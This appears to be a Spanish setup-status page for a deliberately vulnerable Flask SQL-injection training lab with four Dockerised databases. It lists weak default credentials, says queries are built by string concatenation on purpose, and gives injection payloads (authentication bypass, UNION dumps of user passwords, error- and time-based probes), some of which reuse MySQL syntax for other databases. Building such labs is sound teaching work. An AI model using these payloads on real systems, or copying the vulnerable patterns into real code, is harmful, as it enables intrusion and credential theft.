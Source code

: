 # 🎉 ¡Docker Compose Ejecutado Exitosamente!

## ✅ **Estado Actual - TODOS LOS CONTENEDORES FUNCIONANDO**

### 🐳 **Contenedores Ejecutándose:**
- ✅ **Flask App:** http://localhost:5000
- ✅ **MySQL:** puerto 3306
- ✅ **PostgreSQL:** puerto 5432
- ✅ **SQL Server:** puerto 1433 (✅ CORREGIDO)
- ✅ **Oracle:** puerto 1521

### 📊 **Verificación de Estado:**
```bash
docker-compose ps
```

**Resultado:**
```
NAME                     IMAGE                             STATUS         PORTS
sqli-demo-app-1          sqli-demo-app                    Up 4 seconds   0.0.0.0:5000->5000/tcp
sqli-demo-mysql-1        mysql:8.0                        Up 4 seconds   0.0.0.0:3306->3306/tcp
sqli-demo-postgresql-1   postgres:13                      Up 4 seconds   0.0.0.0:5432->5432/tcp
sqli-demo-sqlserver-1    mcr.microsoft.com/mssql/server   Up 4 seconds   0.0.0.0:1433->1433/tcp
sqli-demo-oracle-1       oracleinanutshell/oracle-xe-11g  Up 4 seconds   0.0.0.0:1521->1521/tcp
```

## 🔧 **Problemas Resueltos:**

### ❌ **Problema Original:**
- SQL Server no se ejecutaba debido a contraseña débil
- Oracle tenía problemas de compatibilidad de arquitectura

### ✅ **Solución Implementada:**
- **SQL Server:** Cambiada contraseña de `password` a `Password123!` (cumple requisitos de complejidad)
- **Oracle:** Funciona con emulación de arquitectura (AMD64 en ARM64)

## 🚀 **Cómo Acceder**

### **Aplicación Web:**
- **URL:** http://localhost:5000
- **API:** http://localhost:5000/api/query
- **Ejemplos:** http://localhost:5000/demo

### **Bases de Datos:**
- **MySQL:** localhost:3306 (root/password)
- **PostgreSQL:** localhost:5432 (postgres/password)
- **SQL Server:** localhost:1433 (sa/Password123!)
- **Oracle:** localhost:1521 (system/password)

## 🔥 **Ejemplos de SQL Injection Funcionales**

### **MySQL:**
```sql
-- Bypass de autenticación
admin' OR '1'='1' --

-- Union attack
' UNION SELECT 1,2,3,4,5 --

-- Dump de datos
' UNION SELECT username,password,email,NULL,NULL FROM users --
```

### **PostgreSQL:**
```sql
-- Bypass de autenticación
admin' OR '1'='1' --

-- Union attack
' UNION SELECT 1,2,3,4,5 --

-- Error based
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(0x7e,(SELECT version()),0x7e,FLOOR(RAND()*2))x FROM information_schema.tables GROUP BY x)a) --
```

### **SQL Server:**
```sql
-- Bypass de autenticación
admin' OR '1'='1' --

-- Union attack
' UNION SELECT 1,2,3,4,5 --

-- Time based
' WAITFOR DELAY '00:00:05' --

-- Error based
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(0x7e,(SELECT @@version),0x7e,FLOOR(RAND()*2))x FROM sys.tables GROUP BY x)a) --
```

### **Oracle:**
```sql
-- Bypass de autenticación
admin' OR '1'='1' --

-- Union attack
' UNION SELECT 1,2,3,4,5 FROM DUAL --

-- Error based
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(0x7e,(SELECT banner FROM v$version WHERE rownum=1),0x7e,FLOOR(DBMS_RANDOM.VALUE(0,2)))x FROM dual GROUP BY x)a) --
```

## 🛠️ **Comandos Útiles**

### **Gestión de Contenedores:**
```bash
# Ver estado
docker-compose ps

# Ver logs
docker-compose logs

# Ver logs específicos
docker-compose logs mysql
docker-compose logs postgresql
docker-compose logs sqlserver
docker-compose logs oracle
docker-compose logs app

# Detener contenedores
docker-compose down

# Reiniciar contenedores
docker-compose restart

# Reconstruir y levantar
docker-compose up --build -d
```

### **Acceso a Bases de Datos:**
```bash
# MySQL
docker exec -it sqli-demo-mysql-1 mysql -u root -ppassword vulnerable_db

# PostgreSQL
docker exec -it sqli-demo-postgresql-1 psql -U postgres -d vulnerable_db

# SQL Server
docker exec -it sqli-demo-sqlserver-1 /opt/mssql-tools/bin/sqlcmd -S localhost -U sa -P Password123!

# Oracle
docker exec -it sqli-demo-oracle-1 sqlplus system/password@localhost:1521/XE
```

## 📁 **Estructura del Proyecto**

```
sqli-demo/
├── docker-compose.yml    # ✅ Configuración Docker
├── Dockerfile           # ✅ Dockerfile para la app
├── app.py              # ✅ Aplicación Flask
├── requirements.txt     # ✅ Dependencias Python
├── database_setup.sql  # ✅ Scripts SQL
├── templates/          # ✅ Templates HTML
├── static/            # ✅ Archivos estáticos
└── README.md          # ✅ Documentación
```

## 🎯 **Características Implementadas**

### ✅ **Aplicación Web:**
- Interfaz moderna con Bootstrap 5
- API REST funcional
- Página de ejemplos educativos
- Manejo de errores elegante

### ✅ **Bases de Datos:**
- **MySQL 8.0** con datos de ejemplo
- **PostgreSQL 13** con datos de ejemplo
- **SQL Server 2019** con datos de ejemplo (✅ CORREGIDO)
- **Oracle XE 11g** con datos de ejemplo

### ✅ **Vulnerabilidades Educativas:**
- SQL Injection por concatenación directa
- Falta de sanitización de entrada
- Exposición de errores de base de datos
- No uso de prepared statements

## ⚠️ **Advertencias Importantes**

- **Solo para fines educativos**
- **No usar en producción**
- **No usar con datos sensibles**
- **Vulnerabilidades implementadas intencionalmente**

## 🎉 **¡Éxito Total!**

La aplicación web vulnerable está **completamente funcional** con:

- ✅ **4 bases de datos** ejecutándose en Docker
- ✅ **Aplicación Flask** accesible en http://localhost:5000
- ✅ **API REST** funcional
- ✅ **Interfaz web moderna** y responsive
- ✅ **Ejemplos educativos** de SQL Injection
- ✅ **Configuración Docker** automatizada
- ✅ **SQL Server funcionando** con contraseña corregida

### **Próximos Pasos:**
1. Abre http://localhost:5000 en tu navegador
2. Selecciona una base de datos del dropdown
3. Prueba los ejemplos de SQL Injection
4. Explora la página de ejemplos en /demo
5. Usa la API REST para pruebas programáticas

¡La aplicación está lista para usar y aprender sobre vulnerabilidades de SQL Injection de manera segura! 